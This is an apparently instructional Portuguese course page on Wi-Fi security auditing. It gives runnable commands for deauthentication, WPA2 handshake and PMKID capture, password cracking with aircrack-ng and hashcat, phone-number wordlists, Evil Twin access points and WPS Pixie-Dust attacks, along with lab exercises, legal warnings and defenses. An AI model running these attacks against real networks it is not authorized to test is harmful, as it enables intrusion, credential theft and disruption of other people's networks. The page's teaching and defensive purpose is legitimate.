


# Ferramentas de Redes Sem Fio (802.11)

> [!quote] Testando a Segurança Wi-Fi
> *As mesmas ferramentas usadas por atacantes podem ser usadas para defender suas redes.*

> [!tip] Pré-requisito
> Consulte [[Fundamentos e conceitos de Redes Sem Fio]] para entender a teoria.

> [!danger] ⚠️ AVISO LEGAL OBRIGATÓRIO: Art. 154-A do Código Penal Brasileiro
> **"Invadir dispositivo informático alheio, conectado ou não à rede de computadores, mediante violação indevida de mecanismo de segurança e com o fim de obter, adulterar ou destruir dados ou informações sem autorização expressa ou tácita do titular do dispositivo ou instalar vulnerabilidades para obter vantagem ilícita."**
>
> **Pena: detenção de 3 meses a 1 ano e multa.** Agravada se o crime resultar em prejuízo econômico, acesso a informações sigilosas ou cometido contra autoridades.
>
> Todo comando desta aula deve ser executado **exclusivamente na sua própria rede Wi-Fi ou em laboratório controlado** com roteador dedicado ao lab. Capturar handshakes, desautenticar dispositivos ou realizar qualquer das técnicas abaixo em rede alheia, mesmo sem invadir o sistema, já configura preparação ao crime. **Nunca use em redes de terceiros.**

---

## 💻 Comandos Básicos de Rede

### Linux

```bash
ifconfig          # Visualiza e configura interfaces
iwconfig          # Configuração de interfaces wireless
ip addr           # Visualiza endereços IP
iw dev            # Lista dispositivos wireless
iw dev wlan0 scan # Escaneia redes próximas sem modo monitor
```

### Windows

```cmd
ipconfig                          # Visualiza configurações de rede
netsh wlan show interfaces        # Visualiza interfaces Wi-Fi
netsh wlan show profiles          # Lista redes salvas
netsh wlan show networks mode=bssid  # Mostra redes e BSSIDs visíveis
```

---

## 🛠️ Ferramentas Essenciais

> [!success] Arsenal para Auditoria Wi-Fi

| Ferramenta | Descrição |
|------------|-----------|
| **Aircrack-ng** | Suíte completa para auditoria Wi-Fi (mais utilizada no mundo) |
| **Wifite2** | Script Python para ataques automatizados (captura, PMKID, WPS) |
| **hcxdumptool** | Captura de frames 802.11 e ataque PMKID sem cliente conectado |
| **hcxpcapngtool** | Converte capturas `.pcapng` para formato hashcat (modo 22000) |
| **Bettercap** | Framework ofensivo: Evil Twin, captura de credenciais, MITM |
| **Airgeddon** | Menu interativo: Evil Twin, WPS, handshake, tudo em um |
| **Kismet** | Auditoria passiva e detecção de intrusão (WIDS) |
| **Wash** | Escaneia roteadores com WPS ativado |
| **Reaver** | Explora vulnerabilidades do WPS (Pixie-Dust + brute-force PIN) |
| **Bully** | Implementação melhorada do Reaver, mais estável |
| **Cowpatty** | Força bruta offline em capturas WPA/WPA2 |
| **Hashcat** | Quebra de hashes via GPU (185x mais rápido que aircrack para WPA2) |
| **Pyrit** | Quebra de senhas usando GPU (CUDA/OpenCL) |
| **Crunch** | Gerador de wordlists customizadas |

---

## 🔧 Suíte Aircrack-ng

> [!warning] Executar como root
> Todos os comandos devem ser executados com privilégios de administrador.

### Comandos Principais

| Comando | Função |
|---------|--------|
| `airmon-ng` | Gerencia modo monitor (ativa/desativa) |
| `airodump-ng` | Captura pacotes e lista redes disponíveis |
| `aireplay-ng` | Injeção de pacotes (deauth, fake auth, replay) |
| `aircrack-ng` | Quebra de senhas WPA/WPA2 via wordlist |
| `airdecap-ng` | Decripta pacotes WEP/WPA/WPA2 capturados |
| `airbase-ng` | Cria APs falsos (Evil Twin básico) |

### Preparação da Interface

```bash
# Verificar interfaces wireless disponíveis
iw dev

# Matar processos que interferem no modo monitor
airmon-ng check kill

# Ativar modo monitor
airmon-ng start wlan0
# Interface ficará como wlan0mon (ou wlan0 em chips mais novos)

# Verificar se está em modo monitor
iwconfig wlan0mon
# Deverá aparecer "Mode:Monitor"

# Para desativar o modo monitor ao final
airmon-ng stop wlan0mon
```

> [!info] Por que "check kill"?
> Processos como `NetworkManager`, `wpa_supplicant` e `dhclient` usam a interface wireless em background. Se não forem finalizados, interferem na captura de pacotes e no modo monitor. `airmon-ng check kill` os encerra temporariamente.

### Reconhecimento com airodump-ng

```bash
# Escanear todas as redes no ar
airodump-ng wlan0mon

# Escanear apenas a banda 2.4 GHz
airodump-ng --band bg wlan0mon

# Escanear apenas a banda 5 GHz
airodump-ng --band a wlan0mon

# Escanear ambas as bandas (2.4 e 5 GHz)
airodump-ng --band abg wlan0mon
```

**Lendo a saída do airodump-ng:**

| Campo | Significado |
|-------|-------------|
| `BSSID` | MAC address do ponto de acesso |
| `PWR` | Potência do sinal (dBm): mais próximo de 0 = mais forte |
| `Beacons` | Quadros beacon enviados pelo AP |
| `#Data` | Quadros de dados capturados |
| `CH` | Canal de operação |
| `ENC` | Tipo de encriptação (WPA2, WPA3, OPN) |
| `CIPHER` | Cifra usada (CCMP, TKIP) |
| `AUTH` | Autenticação (PSK, MGT, SAE) |
| `ESSID` | Nome da rede (SSID) |

```bash
# Focar em um AP específico (substituir pelos valores reais do SEU roteador)
airodump-ng wlan0mon \
  --bssid AA:BB:CC:DD:EE:FF \
  --channel 6 \
  --write captura_handshake
```

> O arquivo será salvo como `captura_handshake-01.cap`, `captura_handshake-01.csv`, etc.
> O handshake aparece no canto superior direito: `WPA handshake: AA:BB:CC:DD:EE:FF`

### Ataque de Desautenticação (Deauth) com aireplay-ng

O ataque deauth envia quadros 802.11 de desautenticação forjando o endereço MAC do AP, forçando clientes a se reconectarem e gerando o handshake WPA.

```bash
# Deauth contínuo (0 = infinito) contra TODOS os clientes do AP
aireplay-ng -0 0 -a AA:BB:CC:DD:EE:FF wlan0mon

# Deauth limitado (5 pacotes) contra um cliente específico
aireplay-ng -0 5 \
  -a AA:BB:CC:DD:EE:FF \
  -c CC:DD:EE:FF:00:11 \
  wlan0mon
```

> [!warning] Sobre o deauth
> O ataque de desautenticação é um DoS temporário: desconecta os dispositivos por alguns segundos até a reconexão. Em 802.11w (PMF, Protected Management Frames), quadros de desautenticação são criptografados e este ataque não funciona. Redes com PMF ativo são resistentes ao deauth simples.

### Fluxo Completo: Captura de Handshake WPA2

```bash
# Terminal 1: ativar monitor e capturar
airmon-ng check kill
airmon-ng start wlan0
airodump-ng wlan0mon --bssid AA:BB:CC:DD:EE:FF -c 6 -w captura

# Terminal 2: forçar o handshake com deauth (enquanto Terminal 1 captura)
aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon

# Aguardar "WPA handshake: AA:BB:CC..." aparecer no Terminal 1
# Depois de capturado, quebrar a senha:
aircrack-ng captura-01.cap -w /usr/share/wordlists/rockyou.txt
```

> [!info] Performance do aircrack-ng vs hashcat
> `aircrack-ng` usa a CPU: tipicamente 14.000 chaves/segundo em processador moderno.
> `hashcat` usa a GPU: aproximadamente 2.600.000 chaves/segundo em uma RTX 4090, cerca de 185x mais rápido. Para cracking sério, converter o `.cap` para hashcat:
> ```bash
> # Converter .cap para formato hashcat (modo 22000)
> hcxpcapngtool -o hash.hc22000 captura-01.cap
> hashcat -m 22000 hash.hc22000 /usr/share/wordlists/rockyou.txt
> ```

[🔗 Aircrack-ng: Site Oficial](https://www.aircrack-ng.org/)
[🔗 Kali Linux Tools: aircrack-ng](https://www.kali.org/tools/aircrack-ng/)

---

## 🔐 Ataque PMKID com hcxdumptool

O ataque PMKID foi descoberto pelo time Hashcat em 2018 e representa uma mudança fundamental: **não é necessário que nenhum cliente esteja conectado ao AP, nem aguardar o handshake**. O PMKID (Pairwise Master Key Identifier) é derivado da PMK + MAC do AP + MAC do cliente e é transmitido nos quadros EAPOL do AP.

```
PMKID = HMAC-SHA1-128(PMK, "PMK Name" || BSSID_AP || MAC_cliente)
```

Se capturarmos o PMKID podemos tentar reconstruir a PMK testando senhas: é equivalente a quebrar o handshake, mas sem depender de cliente presente.

### Instalação (Kali Linux)

```bash
sudo apt update && sudo apt install hcxdumptool hcxtools -y
```

### Capturando o PMKID

```bash
# Colocar interface em modo monitor (hcxdumptool faz isso internamente em alguns casos)
airmon-ng check kill
airmon-ng start wlan0

# Capturar PMKID do seu roteador (filtrar pelo BSSID)
# Criar arquivo de filtro com o BSSID (sem os dois-pontos, letras minúsculas)
echo "aabbccddeeff" > filtro_bssid.txt

# Capturar por 60 segundos
sudo hcxdumptool \
  -i wlan0mon \
  --filterlist_ap=filtro_bssid.txt \
  --filtermode=2 \
  -o captura_pmkid.pcapng \
  --active_beacon \
  --enable_status=15

# Converter para formato hashcat (modo 22000, unifica PMKID + handshake)
hcxpcapngtool \
  -o hash_pmkid.hc22000 \
  -E essids.txt \
  captura_pmkid.pcapng

# Quebrar com hashcat
hashcat -m 22000 hash_pmkid.hc22000 /usr/share/wordlists/rockyou.txt

# Ou com aircrack-ng (mais lento, mas funciona)
aircrack-ng -w /usr/share/wordlists/rockyou.txt hash_pmkid.hc22000
```

> [!info] PMKID vs Handshake
> | Característica | Handshake WPA2 | Ataque PMKID |
> |----------------|---------------|--------------|
> | Cliente conectado necessário? | Sim | Não |
> | Aguardar reconexão? | Sim | Não |
> | Funciona em WPA3? | WPA3 puro: não. Modo transição: sim | Igual |
> | Velocidade de captura | Segundos a minutos | Segundos |

[🔗 Wireless Pentesting com hcxdumptool (2025)](https://th4ntis.com/guide/2025/02/06/Wireless-Pentesting-HCXDumptool.html)
[🔗 PMKID Attack: InfiShark](https://infishark.com/blogs/learn/the-wpa2-pmkid-attack-a-faster-way-to-test-wifi-security)

---

## ⚡ Wifite2

> [!tip] Automatização Completa
> Wifite2 é uma reescrita completa do wifite original em Python 3, com melhor arquitetura, suporte a PMKID, WPA3 (modo transição) e interface mais clara. É o "set it and forget it" da auditoria Wi-Fi.

### O que o Wifite2 faz automaticamente

1. Coloca a interface em modo monitor
2. Escaneia todas as redes próximas
3. Ordena por potência de sinal
4. Tenta: handshake WPA2, PMKID, WPS Pixie-Dust, WPS PIN brute-force
5. Quebra os hashes capturados com aircrack-ng

### Comandos

```bash
# Uso básico: escanear tudo e atacar interativamente
sudo wifite

# Somente redes com WPS (Pixie-Dust + PIN)
sudo wifite --wps --wps-only

# MAC aleatório (anonimiza o adaptador durante o teste)
sudo wifite --random-mac

# Força mínima de sinal (ignora redes fracas)
sudo wifite --power 40

# Especificar interface e canal
sudo wifite -i wlan0mon -c 6

# Atacar só o seu BSSID (teste direcionado)
sudo wifite --bssid AA:BB:CC:DD:EE:FF

# Monitorar ataques por 1 hora e salvar log
sudo wifite --monitor-attacks --monitor-duration 3600 --monitor-log audit_lab.log

# Não quebrar: só capturar (economiza tempo no lab)
sudo wifite --skip-crack
```

> [!info] Wifite vs aircrack-ng manual
> Wifite2 chama `airmon-ng`, `airodump-ng`, `aireplay-ng`, `hcxdumptool` e `aircrack-ng` por baixo dos panos. Aprender o fluxo manual primeiro é essencial para entender o que acontece quando o wifite "trava" ou falha.

Utilize `wifite --help` ou `man wifite` para todas as opções.

[🔗 Kali Linux Tools: wifite](https://www.kali.org/tools/wifite/)
[🔗 Wifite2 GitHub](https://github.com/derv82/wifite2)

---

## 📝 Wordlists

> [!info] Listas de Senhas para Força Bruta

### Wordlists Comuns

- **rockyou.txt**: lista clássica com 14 milhões de senhas vazadas do RockYou (2009). Localização no Kali: `/usr/share/wordlists/rockyou.txt.gz`
- **SecLists**: coleção curada de wordlists para pentest. Instalar: `sudo apt install seclists`
- **wpa-dictionary**: wordlists específicas para WPA, incluindo senhas no formato de operadoras brasileiras

```bash
# Descompactar rockyou no Kali
gunzip /usr/share/wordlists/rockyou.txt.gz

# Instalar SecLists
sudo apt install seclists
ls /usr/share/seclists/Passwords/
```

### Gerando Wordlists Personalizadas com Crunch

```bash
# Números de celular (998XXXXXX)
crunch 9 9 0123456789 -t 998@@@@@@ -o celulares998.txt

# Números de celular (999XXXXXX)
crunch 9 9 0123456789 -t 999@@@@@@ -o celulares999.txt

# Com DDD 22 (Região Norte-Fluminense)
crunch 11 11 0123456789 -t 22998@@@@@@ -o celulares22998.txt

# Todos os números de 8 dígitos
crunch 8 8 0123456789 -o numeros8.txt

# Juntar arquivos
cat celulares*.txt > celulares.txt

# Contar entradas
wc -l celulares.txt
```

> [!tip] Por que senhas baseadas em celular?
> Estudos de segurança mostram que muitas senhas residenciais de Wi-Fi são números de telefone, datas de aniversário ou CPFs. Um atacante que conhece a cidade da vítima pode gerar um dicionário altamente eficiente com apenas algumas centenas de milhares de entradas, enquanto uma wordlist genérica tem bilhões. Isso ilustra a importância de senhas verdadeiramente aleatórias.

---

## 🦊 Bettercap e Evil Twin

Bettercap é um framework ofensivo para redes que unifica sniffing, spoofing, captura de credenciais e criação de APs falsos em uma interface interativa.

### Instalação

```bash
sudo apt install bettercap -y
# Atualizar caplets (módulos prontos)
sudo bettercap -eval "caplets.update; q"
```

### Uso Básico

```bash
# Iniciar bettercap em modo interativo
sudo bettercap -iface wlan0

# Dentro do bettercap, comandos úteis:
wifi.recon on            # Iniciar reconhecimento Wi-Fi
wifi.show                # Listar redes e clientes detectados
wifi.deauth AA:BB:CC:DD:EE:FF   # Desautenticar um AP (todos os clientes)

# Criar AP falso (Evil Twin básico)
set wifi.ap.ssid "MinhaRedeLabFake"
set wifi.ap.bssid AA:BB:CC:DD:EE:FF
wifi.ap on

# Capturar handshake
set wifi.handshakes.file /tmp/handshakes
wifi.recon on
```

### Evil Twin com Bettercap (Caplet Pronto)

```bash
# Usar o caplet pwnagotchi/kraken para Evil Twin automático
sudo bettercap -iface wlan0 -caplet /usr/share/bettercap/caplets/pwnagotchi/net-recon.cap
```

> [!danger] Evil Twin: o ataque mais perigoso
> O Evil Twin cria uma rede com o mesmo SSID do AP legítimo mas com sinal mais forte (ou através de deauth do AP real). Usuários desconectados se reconectam ao AP falso, entregando credenciais em portais captivos ou tráfego não criptografado. **Em ambiente de lab:** use um roteador dedicado sem conexão com a internet e dispositivos de teste (nunca celulares de colegas). Em rede alheia, é crime tipificado no art. 154-A.

---

## 🔓 Ataque WPS

O Wi-Fi Protected Setup (WPS) foi criado para facilitar a conexão de dispositivos usando um PIN de 8 dígitos. A vulnerabilidade é que o roteador valida os 4 primeiros dígitos separadamente dos 4 últimos, reduzindo o espaço de busca de 10^8 (100 milhões) para apenas 10^4 + 10^3 = 11.000 combinações.

### Verificar se o AP tem WPS ativo

```bash
# Instalar wash
sudo apt install reaver -y

# Escanear WPS (interface em modo monitor)
wash -i wlan0mon

# Saída mostra: BSSID, Channel, RSSI, WPS Version, WPS Locked, ESSID
```

### Ataque Pixie-Dust (offline, muito rápido)

O Pixie-Dust explora a fraqueza na geração de números aleatórios do chip do roteador. Em chips vulneráveis, o PIN pode ser descoberto em segundos, sem tentativa e erro.

```bash
# Pixie-Dust com reaver
sudo reaver -i wlan0mon \
  -b AA:BB:CC:DD:EE:FF \
  -c 6 \
  -K 1 \
  -vv

# Com bully (alternativa mais estável)
sudo bully wlan0mon \
  -b AA:BB:CC:DD:EE:FF \
  -c 6 \
  -d \
  -v 3
```

### Brute-Force do PIN WPS

```bash
# Brute-force completo (pode demorar horas se não vulnerável ao Pixie-Dust)
sudo reaver -i wlan0mon \
  -b AA:BB:CC:DD:EE:FF \
  -c 6 \
  -vv \
  --delay=1 \
  --lock-delay=60
```

> [!warning] WPS Lock
> Muitos roteadores modernos bloqueiam o WPS após algumas tentativas falhas (WPS Lock). O flag `--lock-delay` aguarda antes de tentar novamente. Roteadores com WPS totalmente desabilitado (não apenas "bloqueado") não são vulneráveis. **Defesa principal: desabilitar o WPS completamente nas configurações do roteador.**

---

## 🐉 Dragonblood: Ataques ao WPA3

WPA3 foi lançado em 2018 e usa o protocolo SAE (Simultaneous Authentication of Equals), também chamado Dragonfly, que substitui o 4-way handshake PSK. Em 2019, pesquisadores (Vanhoef e Ronen) publicaram o conjunto de vulnerabilidades **Dragonblood**.

### Vulnerabilidades Principais

| Vulnerabilidade | Descrição | Status 2026 |
|----------------|-----------|-------------|
| **Downgrade para WPA2** | Forçar cliente a usar WPA2 em redes com modo transição | Ainda efetivo em redes mistas |
| **Side-channel de temporização** | Medir tempo de resposta SAE para inferir grupos ECC | Corrigido nas atualizações de firmware |
| **Side-channel de cache** | Inferir bits da senha via acesso ao cache da CPU | Corrigido nas atualizações de firmware |
| **DoS via commit SAE** | Flood de commit frames sobrecarrega o AP | Mitigado por rate limiting |
| **Evil Twin SAE** | AP falso WPA3 captura commits SAE para offline crack | Efetivo em alguns cenários |

### Ataque de Downgrade (o mais prático)

Em redes com WPA3 Transition Mode (compatibilidade com WPA2), um atacante pode criar um Evil Twin que anuncia apenas WPA2. Clientes que não suportam WPA3 (ou configurados para aceitar ambos) se conectam via WPA2, expondo o handshake clássico.

```bash
# Verificar se a rede usa modo transição (AUTH = SAE+PSK)
airodump-ng wlan0mon
# Se AUTH mostrar "SAE" apenas = WPA3 puro (resistente)
# Se AUTH mostrar "PSK" ou misto = modo transição (vulnerável a downgrade)
```

> [!info] WPA3 em 2026
> Redes WPA3 puras (SAE only, sem fallback WPA2, com PMF obrigatório) são substancialmente mais seguras. O ponto fraco continua sendo o modo transição mantido por compatibilidade retroativa. A recomendação de segurança para 2026 é: desabilitar o modo de compatibilidade assim que todos os dispositivos suportarem WPA3.

[🔗 Dragonblood: Análise do Handshake SAE do WPA3 (Semantic Scholar)](https://www.semanticscholar.org/paper/Dragonblood:-A-Security-Analysis-of-WPA3's-SAE-Vanhoef-Ronen/8ff38f0627217ebcc7add9ad2a69bb28cd3dd6cf)
[🔗 Por que WPA3 ainda não acabou com o Wi-Fi Hacking (Payatu)](https://payatu.com/blog/wpa3-isnt-the-end-of-wi-fi-hacking/)

---

## 🗺️ Fluxo Visual dos Ataques

### Ataque WPA2 Completo (Monitor → Handshake → Crack)



### Fluxo de Decisão: Qual Ataque Usar?



---

## ⚔️ Ataques Comuns e Medidas Defensivas

> [!warning] Ataques e Defesas (2026)

| Ataque | Descrição | Ferramenta Típica | Medida Defensiva |
|--------|-----------|-------------------|------------------|
| **DoS (Deauth)** | Derrubar redes ou clientes forjando frames | `aireplay-ng -0` | Ativar PMF (802.11w), WIDS |
| **Handshake WPA2** | Capturar 4-way handshake e quebrar offline | `airodump-ng` + `aircrack-ng` | Senha forte (16+ chars aleatórios) |
| **PMKID** | Capturar PMKID do AP sem cliente conectado | `hcxdumptool` | Senha forte, migrar para WPA3 |
| **Ataque WPS** | Explorar PIN WPS (Pixie-Dust ou brute-force) | `reaver`, `bully` | **Desabilitar WPS completamente** |
| **Evil Twin** | Roteador falso para roubar credenciais ou MITM | `bettercap`, `airgeddon` | VPN, certificados, HSTS |
| **Downgrade WPA3** | Forçar cliente WPA3 a usar WPA2 | `hostapd-wpe` | WPA3-Only + PMF obrigatório |
| **Dragonblood SAE** | Side-channel no handshake Dragonfly | Ferramentas especializadas | Firmware atualizado, WPA3-SAE corrigido |

---

## 🧪 Atividades Práticas no Próprio Lab

> [!example] 🧪 Atividade 1: Capturar Handshake WPA2 da Sua Própria Rede e Quebrar a Senha
>
> **Objetivo:** executar o fluxo completo de captura e cracking no roteador do lab (ou seu roteador pessoal em casa), comprovando que a senha atual seria ou não encontrada pela wordlist.
>
> **Requisitos:** Kali Linux + adaptador Wi-Fi com suporte a modo monitor (Alfa AWUS036ACH, TP-Link TL-WN722N v1 ou similar) + roteador do lab/pessoal + wordlist com a senha real incluída.
>
> **Passo 1: preparar o ambiente**
> ```bash
> # Verificar se o adaptador suporta modo monitor
> iw list | grep -A 10 "Supported interface modes"
> # Deve aparecer "monitor"
>
> # Matar processos conflitantes
> sudo airmon-ng check kill
>
> # Ativar modo monitor
> sudo airmon-ng start wlan0
> # Verificar: iwconfig wlan0mon deve mostrar Mode:Monitor
> ```
>
> **Passo 2: identificar o seu AP**
> ```bash
> sudo airodump-ng wlan0mon
> # Anotar: BSSID (MAC do seu roteador) e CH (canal)
> # Pressionar Ctrl+C quando tiver as informações
> ```
>
> **Passo 3: capturar o handshake**
> ```bash
> # Substituir AA:BB:CC:DD:EE:FF pelo BSSID do SEU roteador e 6 pelo canal real
> sudo airodump-ng wlan0mon \
>   --bssid AA:BB:CC:DD:EE:FF \
>   --channel 6 \
>   --write meu_handshake
> # Deixar rodando no Terminal 1
> ```
>
> **Passo 4: forçar o handshake com deauth (Terminal 2)**
> ```bash
> # Desautenticar todos os clientes do SEU AP (você mesmo vai se reconectar)
> sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon
>
> # Observar no Terminal 1: aparecerá "WPA handshake: AA:BB:CC:DD:EE:FF" no canto superior
> # Quando aparecer, pressionar Ctrl+C no Terminal 1
> ```
>
> **Passo 5: verificar o handshake capturado**
> ```bash
> ls -la meu_handshake*.cap
>
> # Verificar se o handshake está válido
> aircrack-ng meu_handshake-01.cap
> # Deve mostrar "1 handshake" na coluna da sua rede
> ```
>
> **Passo 6: criar wordlist incluindo a senha real e tentar quebrar**
> ```bash
> # Criar uma wordlist de teste que INCLUI sua senha real
> echo "senhateste123" > wordlist_lab.txt
> echo "password123" >> wordlist_lab.txt
> echo "SUA_SENHA_REAL_AQUI" >> wordlist_lab.txt
> echo "abc123456" >> wordlist_lab.txt
>
> # Quebrar o handshake
> aircrack-ng meu_handshake-01.cap -w wordlist_lab.txt
>
> # Se a senha for simples, tentar também com rockyou:
> aircrack-ng meu_handshake-01.cap -w /usr/share/wordlists/rockyou.txt
> ```
>
> **Prova de conclusão:** screenshot da tela do aircrack-ng mostrando `KEY FOUND! [ SUA_SENHA ]` com o ESSID da sua rede. Anote o tempo total de captura e o tempo de cracking.
>
> **Reflexão:** se sua senha real foi encontrada, ela precisa ser trocada. Se não foi encontrada na rockyou, a senha tem boa resistência a ataques de dicionário (mas pode ser vulnerável a ataques com regras ou brute-force).

---

> [!example] 🧪 Atividade 2: Auditoria Automatizada com Wifite2 (Sua Rede)
>
> **Objetivo:** usar o wifite2 direcionado ao BSSID do seu roteador de lab e observar quais ataques ele tenta automaticamente.
>
> **Passo 1: identificar o BSSID do seu roteador**
> ```bash
> sudo airodump-ng wlan0mon
> # Anotar BSSID e canal do SEU roteador
> # Pressionar Ctrl+C
> ```
>
> **Passo 2: rodar wifite apontando só para o seu BSSID**
> ```bash
> sudo wifite \
>   --bssid AA:BB:CC:DD:EE:FF \
>   --random-mac \
>   --power 0
> # --power 0 ignora o filtro de sinal mínimo (garante que ele tente mesmo com sinal fraco)
> ```
>
> **Observar:**
> - Wifite tentará WPS Pixie-Dust primeiro (se WPS estiver ativo)
> - Depois tentará captura de handshake WPA2
> - Depois tentará PMKID
> - O output mostra claramente o que está acontecendo
>
> **Passo 3: aguardar o resultado**
> ```bash
> # Se capturar handshake, wifite tentará quebrar com a wordlist padrão
> # Para ver as capturas salvas:
> ls -la ~/.wifite2/
> ls -la hs/
> ```
>
> **Prova de conclusão:** screenshot da tela completa do wifite2 mostrando o ESSID da sua rede, os ataques tentados e o resultado final (encontrou handshake/PMKID ou não).

---

> [!example] 🧪 Atividade 3: Verificar se o Seu Roteador tem WPS Ativado
>
> **Objetivo:** auditar seu roteador quanto ao WPS e, se ativo, testar o Pixie-Dust.
>
> **Passo 1: escanear WPS**
> ```bash
> sudo wash -i wlan0mon
>
> # Saída exemplo:
> # BSSID              Ch  dBm  WPS  Lck  Vendor    ESSID
> # AA:BB:CC:DD:EE:FF   6  -45  2.0  No   Broadcom  MinhaRede
>
> # Se "Lck" for "No" e WPS aparecer, o WPS está ativo e desbloqueado
> # Se "Lck" for "Yes", o roteador bloqueou após tentativas (mas WPS ainda existe)
> # Se sua rede NÃO aparecer na lista, o WPS está desabilitado (ótimo!)
> ```
>
> **Passo 2: testar Pixie-Dust (se WPS estiver ativo)**
> ```bash
> sudo reaver \
>   -i wlan0mon \
>   -b AA:BB:CC:DD:EE:FF \
>   -c 6 \
>   -K 1 \
>   -vv
> # -K 1 = Pixie-Dust offline (rápido, segundos a minutos)
> # Se o chip for vulnerável, retorna o PIN e a senha WPA em segundos
> # Se não for vulnerável, retorna "WPS pin not found"
> ```
>
> **Prova de conclusão:** screenshot do resultado do `wash` (mostrando se o WPS está ativo ou não na sua rede) + resultado do `reaver` (PIN encontrado ou não). Independente do resultado, **desabilite o WPS nas configurações do seu roteador** e documente isso na entrega.

---

## 🎯 Roteiro de Aula Prática (Checklist)

> [!success] Passo a Passo no Lab

1. ☐ Conectar placa Wi-Fi na porta USB do computador
2. ☐ Abrir a máquina virtual Kali Linux
3. ☐ Menu: Dispositivos > USB > Atheros (ou o adaptador disponível)
4. ☐ Verificar interface com `iw dev` (procurar wlan0 ou wlan1)
5. ☐ Executar `airmon-ng check kill` para matar processos conflitantes
6. ☐ Ativar modo monitor: `airmon-ng start wlan0`
7. ☐ Confirmar modo monitor: `iwconfig wlan0mon`
8. ☐ Escanear redes: `airodump-ng wlan0mon` (identificar o roteador do lab)
9. ☐ Executar Atividade 1 (handshake + cracking)
10. ☐ Executar Atividade 2 (wifite2)
11. ☐ Executar Atividade 3 (WPS audit)
12. ☐ Restaurar interface: `airmon-ng stop wlan0mon && systemctl restart NetworkManager`
13. ☐ Documentar achados e medidas corretivas

---

## 🔍 Outras Ferramentas

| Ferramenta | Uso |
|------------|-----|
| **Karma** | Ataque Evil Twin via PNL (Preferred Network List): responde probes com SSID pedido |
| **Beholder** | Anti-karma: detecta anomalias e APs falsos em redes Wi-Fi |
| **mdk3/mdk4** | Ataques de deautenticação em massa, beacon flooding, SSID fuzzing |
| **Linset/Fluxion** | Evil Twin automatizado com portal captivo para captura de senha |
| **Hostapd-wpe** | AP falso para captura de credenciais EAP (WPA2-Enterprise) |
| **Wireshark** | Análise de pacotes capturados (abrir .cap do airodump-ng) |
| **Hashcat** | Quebra de hashes por GPU (modo 22000 para WPA2/PMKID) |

---

## 🛡️ Defesas: Como Proteger Sua Rede

> [!tip] Checklist de Segurança Wi-Fi (2026)

| Medida | Impacto | Como Implementar |
|--------|---------|-----------------|
| **Senha forte (20+ chars aleatórios)** | Alto: resistência a wordlist/brute-force | Usar gerenciador de senhas para gerar |
| **WPA3-SAE (sem modo transição)** | Alto: imune a PMKID e handshake WPA2 | Configurações do roteador: Security = WPA3 Only |
| **Desabilitar WPS completamente** | Alto: elimina Pixie-Dust e brute-force PIN | Configurações do roteador: desmarcar WPS |
| **PMF (Protected Management Frames, 802.11w)** | Médio: impede deauth attack | Configurações: PMF = Required (não só opcional) |
| **Atualizar firmware do roteador** | Médio: corrige Dragonblood e outras CVEs | Site do fabricante, atualização regular |
| **Separar rede IoT da principal** | Médio: limita pivoting interno | VLAN ou SSID separado para dispositivos smart |
| **WIDS (Wireless Intrusion Detection)** | Médio: detecta ataques em andamento | Kismet, roteadores enterprise com WIDS |
| **Desabilitar SSID Broadcast (segurança limitada)** | Baixo: apenas obscuridade, não segurança real | Não recomendado como medida principal |

> [!info] WPA3 e PMF em 2026
> WPA3 exige PMF (Protected Management Frames) obrigatoriamente, o que elimina o ataque de desautenticação tradicional. Roteadores modernos com WPA3 ativado corretamente e sem modo de compatibilidade WPA2 são resistentes a todos os ataques desta aula. O elo mais fraco volta a ser a força da senha e ataques de engenharia social (Evil Twin com portal captivo).

---

## 📚 Fontes (2026)

> [!note] 📚 Fontes e Referências (2026)
>
